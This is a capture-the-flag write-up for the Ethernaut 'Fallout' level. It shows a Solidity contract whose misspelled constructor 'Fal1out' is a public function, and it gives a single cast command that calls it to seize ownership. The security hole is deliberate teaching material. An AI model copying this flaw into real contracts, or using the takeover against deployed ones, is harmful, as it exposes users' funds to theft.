 ## Fallout Level Outline


**Difficulty : 2/10**

Claim ownership of the contract below to complete this level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
    require(
      msg.sender == owner,
      "caller is not the owner"
    );
    _;
  }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x5732B2F88cbd19B6f01E3a96e9f0D90B917281E5)

## Solution

Notice how the contract's "contructor" is not really a constructor

### Walkthrough
##### 1. Call the "Fal1out()" function
```console
cast send $LEVEL_ADDRESS "Fal1out()" --private-key $PRIVATE_KEY
```
